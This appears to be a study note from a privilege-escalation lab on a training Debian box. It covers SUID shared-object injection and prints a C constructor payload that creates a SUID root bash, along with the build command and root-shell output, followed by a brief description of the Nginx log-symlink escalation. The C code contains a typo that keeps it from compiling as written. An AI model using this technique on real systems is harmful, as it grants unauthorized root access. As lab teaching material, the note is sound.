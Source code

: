 
For basic info on how to find files with SUID or SGID is set, look [[Privilege Escalation#^257fb3|here]].

## Shared Object Injection

Another method we can exploit SUID files is by performing shared object injections. First we need to identify files that rely on shared objects for execution. We can do this using the `strace` tool.

```bash
TCM@debian:~$ find / -perm -04000 -type f -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
```

We can see that there are three files with both SUID and SGID set. Let's have a look at the `/usr/local/bin/suid-so` file first. When we execute the file, we get the following output.

```bash
TCM@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Since something is happening when the file ie being run, we can use `strace` to trace whats happening when it run. Since most of the output is printed to `stderr`, we need to direct it to `stdout` via `2>&1` for further analysis.

```bash
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
TCM@debian:~$ strace /usr/local/bin/suid-so 2>/dev/null| grep directory
TCM@debian:~$ strace /usr/local/bin/suid-so
execve("/usr/local/bin/suid-so", ["/usr/local/bin/suid-so"], [/* 17 vars */]) = 0
brk(0)                                  = 0x713000
fcntl(0, F_GETFD)                       = 0
fcntl(1, F_GETFD)                       = 0
fcntl(2, F_GETFD)                       = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fc253e19000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=13345, ...}) = 0
mmap(NULL, 13345, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fc253e15000
close(3)                                = 0
.
.
```

We see there are errors saying `No such file or directory`, which is what we are after. We can use `grep` to filter the output and see which files are accessed when the binary is run.

```bash
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1| grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

The `-i` ignores the case and `-E` enables extended regex use so we can use the `|` operator for the `or` functionality.

The `/home/user/.config/libcalc.so` stands out from the rest since it seems to be a user own file. Since we can write to the `/home/user` directory, we can overwrite this file and replace it with a piece of code we want to be executed. 

```C
#include <stdio.h>
#include <stdlib.h>

ststic void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Next we need to compile it as a shared object using `GCC`.

```bash
TCM@debian:~/.config$ gcc -shared -fPIC -o libcalc.so libcalc.c 
```

Finally, when we execute the initial program we get a console as root.

```bash
TCM@debian:~/.config$ /usr/local/bin/suid-so 
Calculating something, please wait...
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# whoami
root
```


## Binary Symlinks

We can exploit a tool that uses a SUID binary to gain root access by overwriting a file that is used by the tool.

For example, `Nginx < 1.6.2`  has a vulnerability where the `/var/log/nginx/` log directory is owned by `www-data`. Since logging is handled by the master process that runs as `root`, we can manipulate the logging process if we have compromised the `www-data` user.

We can remove the existing log file and create a symlink to the location that points to a shell code. When an error occurs and the master process tried to write it to the error log, instead it executed the command in a shell with the SUID set. Enabling the attacker to gain root access. For more info read [this](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html).

## Environmental Variables

